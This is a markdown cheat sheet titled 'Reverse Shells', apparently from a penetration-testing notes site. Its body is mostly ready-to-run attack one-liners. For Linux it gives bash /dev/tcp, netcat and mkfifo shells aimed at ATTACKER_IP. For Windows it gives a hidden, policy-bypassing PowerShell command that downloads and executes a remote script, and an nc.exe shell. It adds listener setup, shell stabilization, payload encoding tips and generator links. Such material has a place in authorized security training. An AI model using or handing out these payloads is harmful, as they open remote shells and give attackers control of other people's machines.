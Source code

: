 ```yaml
---
title: 'Reverse Shells'
weight: 2
draft: false
---
```

## 🧠 Overview
A reverse shell allows an attacker to connect back to their machine and gain remote access to a target system. This section includes payloads, tools, one-liners, and techniques for both Linux and Windows environments.

---

## 🔌 Basic Reverse Shells

### 🐧 Linux

```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```

```bash
nc -e /bin/sh ATTACKER_IP PORT
```

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP PORT > /tmp/f
```

### 🪟 Windows

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/shell.ps1')"
```

```cmd
nc.exe -e cmd.exe ATTACKER_IP PORT
```

---

## 🛠️ Tools

- [Ncat (from Nmap)](https://nmap.org/ncat/) – Advanced netcat replacement.
- [MSFvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) – Payload generator for Windows/Linux shells.
- [socat](http://www.dest-unreach.org/socat/) – Flexible tool for socket communication and reverse shells.
- [chisel](https://github.com/jpillora/chisel) – TCP/UDP tunneling over HTTP, often used for reverse shells via HTTP.

---

## 📦 Payload Generators

- [Reverse Shell Generator](https://www.revshells.com/)
- [InternalAllTheThings – Reverse Shells](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

---

## 🔁 Shell Stabilization (Linux)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
CTRL-Z
stty raw -echo; fg
```

```bash
export TERM=xterm
```

---

## 🧪 Tips

- Always set up a listener before triggering a reverse shell:

```bash
nc -lvnp PORT
```

- Check firewall rules — use high-numbered ports like 4444, 9001, 1337.
- Encode payloads for web or command injection (e.g., URL-encode or Base64).
- Use `tcpdump` or `wireshark` to monitor connections if shell doesn’t arrive.

---

## 📚 References

- [GTFOBins – reverse shell](https://gtfobins.github.io)